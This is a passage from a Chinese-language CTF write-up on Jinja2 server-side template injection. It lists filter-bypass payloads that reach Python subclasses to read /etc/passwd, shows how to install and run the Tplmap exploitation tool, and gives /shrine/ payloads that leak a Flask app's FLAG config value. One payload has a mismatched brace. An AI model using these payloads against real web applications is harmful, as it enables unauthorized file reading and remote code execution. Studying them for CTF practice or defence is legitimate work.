 **base64编码绕过**

用于`__getattribute__`使用实例访问属性时。

例如，过滤掉 `__class__ `关键词

	{[].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}}

**字符串拼接绕过**

	{{[].__getattribute__('__c'+'lass__').__base__.__subclasses__()[40]("/etc/passwd").read()}}
	
	{{[].__getattribute__(['__c','lass__']|join).__base__.__subclasses__()[40]}} 

#### Tplmap 

	服务器端模板注入和代码注入检测与开发工具

一个 python 工具，可以通过使用沙箱转义技术找到代码注入和服务器端模板注入（SSTI）漏洞。该工具能够在许多模板引擎中利用 SSTI 来访问目标文件或操作系统。一些受支持的模板引擎包括 PHP、Ruby、JaveScript、Python、ERB、Jinja2 和 Tornado。该工具可以执行对这些模板引擎的盲注入，并具有执行远程命令的能力。

使用：

获取： https://github.com/epinna/tplmap

安装第三方依赖：

	pip install -r requirements

Tplmap 不仅利用了文件系统的漏洞，而且还具有使用不同参数访问底层操作系统的能力。以下屏幕截图显示了可用于访问操作系统的不同参数选项。

以下命令可用于测试目标URL中的易受攻击的参数。

	./tplmap.py -u <'目标网址'>

执行该命令后，该工具会针对多个插件测试目标 URL 以查找代码注入机会。

有关 SSTI 的内容就简单介绍到这里，向作者致敬。更多有关内容请前往 二向箔安全 进行学习，最近推出了一系列免费的网络安全技能包，有关CTF、渗透测试、网络攻防、黑客技巧尽在其中，学它涨姿势 。

## 开始做题

文章最开始已经判断有ssti注入了。

根据上边大佬文章获取flag.

payload:

	/shrine/{{url_for.__globals__['current_app'].config.FLAG}}

	/shrine/{{get_flashed_messages.__globals__['current_app'].config.FLAG}}